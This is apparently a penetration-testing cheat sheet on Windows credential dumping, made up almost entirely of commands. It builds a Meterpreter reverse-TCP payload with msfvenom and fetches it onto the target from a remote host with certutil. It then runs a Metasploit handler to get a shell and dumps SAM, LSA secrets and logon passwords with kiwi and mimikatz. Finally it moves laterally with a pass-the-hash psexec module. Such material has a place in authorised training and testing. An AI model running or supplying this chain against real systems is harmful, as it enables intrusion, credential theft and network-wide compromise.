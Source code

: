 ### Windows Credential Dumping

```bash
# Exploitation
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<TARGET_IP> LPORT=1234 -f exe > payload.exe

python -m SimpleHTTPServer 80

## METASPLOIT
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run

## On target system
certutil -urlcache -f http://<TARGET_IP>/payload.exe payload.exe
# Run payload.exe

# METASPLOIT - Meterpreter
sysinfo
getuid
pgrep lsass
migrate <explorer_PID>
getprivs

# Creds dumping - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# MIMIKATZ
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords

# PASS THE HASH
## sekurlsa::logonPasswords
background
search psexec
use exploit/windows/smb/psexec
set LPORT <LOCAL_PORT2>
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
exploit
```
